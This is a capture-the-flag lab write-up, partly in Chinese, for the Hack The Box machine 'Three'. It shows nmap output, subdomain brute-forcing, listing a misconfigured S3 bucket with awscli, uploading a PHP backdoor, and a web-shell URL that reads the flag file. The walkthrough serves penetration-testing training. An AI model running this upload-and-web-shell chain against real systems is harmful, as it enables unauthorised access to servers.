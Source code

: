 ```yaml
---
layout: ../../layouts/BlogPost.astro
title: "[Hack The Box] [Starting Point] [Tier 1] Three"
uuid: c18c3302-3314-11ed-a39a-327ebed86db8
version: 286
created: Tue, 13 Sep 2022 03:32:54 GMT
tags: [ "type/resource", "status/draft", "areas/pentest" ]
---
```


**TASK 1**

**How many TCP ports are open?** 2

```
$ nmap -sC -sT -sV $ip
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 06:53 BST
Nmap scan report for 10.129.218.174
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.12 seconds
```

**TASK 2**

**What is the domain of the email address provided in the "Contact" section of the website?** thetoppers.htb

**TASK 3**

**In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?** /etc/hosts

**TASK 4**

**Which sub-domain is discovered during further enumeration?** s3.thetoppers.htb

将thetoppers.htb映射ip，写入到hosts文件中

开始爆破子域名

`ffuf -u http://PARAM.thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-topmillion-200000.txt:PARAM`

试了多个字典，都扫不出来

使用gobuster dns模式也扫不出来

使用gobuster vhost命令, 可以扫出来2个

返回码404和400，，所以没扫出来

![](https://images.amplenote.com/c18c3302-3314-11ed-a39a-327ebed86db8/6d5f001f-d98e-4fb5-bded-d3fe43052db5.png)

**TASK 5**

**Which service is running on the discovered sub-domain?** Amazon S3

**TASK 6**

**Which command line utility can be used to interact with the service running on the discovered sub-domain?** awscli

**TASK 7**

**Which command is used to set up the AWS CLI installation?** aws configure

**TASK 8**

**What is the command used by the above utility to list all of the S3 buckets?** aws s3 ls

**TASK 9**

**This server is configured to run files written in what web scripting language?** PHP

**SUBMIT FLAG** 

将s3.thetoppers.htb也添加到hosts文件中

`10.129.230.68 thetoppers.htb s3.thetoppers.htb`

根据[aws文档](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)，安装awscli

然后需要配置aws，随便输：`aws configure`

根据[aws文档](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html#using-s3-commands-listing-buckets)可得以下命令: `aws s3 ls s3://thetoppers.htb`

但报错了：

![](https://images.amplenote.com/c18c3302-3314-11ed-a39a-327ebed86db8/ca9b0d9d-fda3-4850-9719-8f487d6aa3c1.png)

通过错误信息可知，需要修改endpoint URL，根据[文档](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/s3/ls.html)可知参数为--endpoint-url

![](https://images.amplenote.com/c18c3302-3314-11ed-a39a-327ebed86db8/7161e1d1-c1a9-4b41-841c-74ebae27b251.png)

那么接下来就是上传后门文件咯

![](https://images.amplenote.com/c18c3302-3314-11ed-a39a-327ebed86db8/77d27b99-531c-4b52-a8a9-c6a35433c880.png)

然后通过[url在线编码器](https://www.w3cschool.cn/tools/index?name=urlencode_decode)，编码命令就能得到flag了

http://thetoppers.htb/shell.php?cmd=cat%20../flag.txt

**Note:**

ref: 

字典(dict) [danielmiessler/SecLists](https://github.com/danielmiessler/SecLists) 

[Configuration basics - AWS Command Line Interface (amazon.com)](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html) 

[https://erev0s.com/blog/gobuster-directory-dns-and-virtual-hosts-bruteforcing/](https://erev0s.com/blog/gobuster-directory-dns-and-virtual-hosts-bruteforcing/)  [Note](https://www.amplenote.com/notes/876fd216-33df-11ed-a709-5ac3aea65f93) 